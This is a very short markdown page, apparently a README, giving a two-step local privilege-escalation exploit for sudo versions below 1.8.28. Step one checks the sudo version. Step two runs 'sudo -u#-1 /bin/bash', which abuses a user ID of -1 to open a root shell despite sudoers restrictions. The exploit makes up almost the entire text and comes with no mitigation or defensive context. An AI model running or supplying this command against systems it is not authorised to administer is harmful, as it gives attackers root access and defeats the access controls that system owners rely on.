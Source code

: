 # Sudo < 1.8.28

### 1) Confirm the version with sudo

    sudo -v

### 2) Run:

    sudo -u#-1 /bin/bash
